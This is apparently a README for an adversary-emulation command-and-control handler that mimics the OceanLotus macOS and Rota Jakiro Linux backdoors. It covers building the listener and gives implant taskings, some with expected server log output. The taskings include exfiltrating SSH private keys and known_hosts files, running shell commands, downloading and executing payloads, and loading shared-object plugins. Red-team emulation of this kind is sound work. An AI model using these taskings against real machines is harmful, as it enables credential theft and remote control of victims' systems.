


# OceanLotus Handler


The OceanLotus Handler functions as the server-side translation between the Red Team operator and the OceanLotus implants (OSX.OceanLotus & Rota Jakiro). The OceanLotus handler communicates with the OSX.OceanLotus over HTTP & Rota Jakiro using TCP. Taskings, heartbeat, and other information is communicated through transforming the tasks into binary data using the [TLV](https://devopedia.org/tlv-format)(Tag-Length-Value) format to represent the data in a structured way. Our Tags include: magic, payload length, key length, and command code. See the [Components section](##Components) for more information.

The handler conducts the following actions:
- Respond to macOS implant using HTTP
- Respond to Linux implant using TCP custom protocol
- Create unique sessions based on operating system and protocol used (TCP vs HTTP)
- Register a new implant with the control server, or indicate that a session already exists for the implant
- Respond to implant task requests with the implant's session ID or tasks
- Process the data returned after the implant completes tasks
- Accept tasking from `.evalsC2client.py` (used by the Red Team Operator) and send the tasks to the implant

## Usage
The C2 server expects the Red Team operator to use two terminal windows to manage active implants. One terminal is used for the listener and provides ongoing feedback from each implant. The second terminal window is used for the Red Team operator to task the implant. 

Open a terminal window. Inside the cloned repo, navigate to the `/controlServer` folder. Use the below commands to build the listener from source code. 
```zsh
go build -o controlServer main.go
```
Start the listener
```
sudo ./controlServer
```

Open a new terminal window, navigate to the same `/controlServer` folder. 

Copy/Paste the task command from the [commands section](###Tasks)

>Note: Only implants with sessions can be tasked, use the listener window to view the UUID of the implant. Look for the `[SUCCESS]` message 

## Commands
When using `--set-task` with the ./evalsC2client.py script, these are the strings accepted as commands with expected arguments passed
Two types of arguments are passed:
1. `int` (sleep only) - represents seconds and used for heartbeat
1. `string` (file management commands) - the file path to query, manipulate, upload, or download
1. `string` - the command to execute in a terminal

### Tasks

#### Rota Jakiro

- C2 timeout update
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_timeout", "arg": "1"}'
    ```
	- Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:16:46 sleepy time updated!
        ```

- File upload
    > :information_source: **Note:** Any file uploaded will be called local_rota_file.so
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_upload_file", "payload": "payload.so"}'
    ```
	- Expected C2 server log output:
		```
		[Task] 2023/07/31 13:40:34 successfully wrote entire file.
		```

- File download
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_steal_data", "arg": "/home/$USER/.ssh/id_rsa"}'
    ```
	- Expected C2 server log output
		```
		[SUCCESS] 2023/07/31 13:42:38 File uploaded: Successfully uploaded file to control server at './files/id_rsa'
		```

- File query
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_query_file", "arg": "local_rota_file.so"}'
    ```
	- Expected C2 server output
		```
		[Task] 2023/07/31 13:43:02 file exists
		```

- Get device info
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_upload_dev_info"}'
    ```
	- Expected C2 server output (username-machine-kernel)
		```
        [Task] 2023/07/31 13:46:20 gdev-Linux-6.1.39-1-lts
		```

- Delete file
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_delete_file", "arg":"local_rota_file"}'
    ```
- Shared Object execution
    > :information_source: **Note:** this Shared Object will be called local_rota_file.so, but the exported function name can be anything*
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_run_plugin", "arg": "update"}'
    ```

#### OSX.OceanLotus

- Run a command
    ```
    # task the OSX.OceanLotus implant to execute whoami on the victim machine
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_run_cmd", "arg":"whoami"}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:16:46 bob
        ```

- Get implant configuration information
    ```
    # task the OSX.OceanLotus implant to retrieve its stored configuration information
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_config_info"}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:19:10 Config Info:
        ID: yD89SSQbp8n7cjRooM28jg==
        Path: /Users/bob/Downloads/
        Install Time: 1690812988
        ```

- Get a file size (in bytes)
    ```
    # task the OSX.OceanLotus implant to get the file size in bytes of /Users/bob/.ssh/known_hosts
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_get_file_size", "arg":"/Users/bob/.ssh/known_hosts"}'
    ```
    - Expected C2 server log output
        ```
        [Task] 2023/07/31 10:21:39 Size of /Users/bob/.ssh/known_hosts: 1055 bytes
        ```

- Upload a file
    ```
    # task the OSX.OceanLotus implant to upload /Users/bob/.ssh/known_hosts from the victim machine to the C2 server
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_upload_file", "arg":"/Users/bob/.ssh/known_hosts"}'
    ```
    - Expected C2 server log output
        ```
        [SUCCESS] 2023/07/31 10:22:47 File uploaded: Successfully uploaded file to control server at './files/known_hosts'
        ```

- Download a file
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant is only capable of downloading files to its current working directory
    with the file name of `osx.download`. This instruction does not return output.

    ```
    # task the OSX.OceanLotus implant to download hello_world to the local directory
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_download_file", "payload":"hello_world"}'
    ```

- Download and execute a file
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant will also add the executable bit to the created `osx.download` file.

    ```
    # task the OSX.OceanLotus implant to download hello_world to the local directory then execute it
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_download_exec", "arg":"hello_world}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:30:30 Hello, world!
        ```

- Terminate the implant process
    > :information_source: **Note:** The implementation of the OSX.OceanLotus
    implant will not return output for this instruction.

    ```
    # task the OSX.OceanLotus implant to exit
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_exit"}'
    ```

### Clean-up

Server: [control+c] to shutdown the C2 Handler
Victim: The program only runs once and dies. 🪓

## Components
Compairing CTI Reports, we used the below information to determine the byte stream used Type, Length, & Value (TLV) to serialize the binary data. 


After comparing each header, we used the below structure for each packet. The handler checks for this structure to verify the packet is from an OceanLotus implant (Rota Jakiro & OSX.OceanLotus). Packets that do not have this structure are dropped.  


## CTI References
- [NetLab 360 - Rota Jakiro Linux Backdoor](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)
- [Unit42 Palo Alto - OceanLotus macOS Backdoor](https://unit42.paloaltonetworks.com/unit42-new-improved-macos-backdoor-oceanlotus/)
- [NetLab 360 - Rota Jakiro Linux Backdoor vs OceanLotus macOS Backdoor ](https://blog.netlab.360.com/rotajakiro_linux_version_of_oceanlotus/)
- [GitHub OceanLotus Scripts](https://github.com/eset/malware-research/tree/master/oceanlotus/)

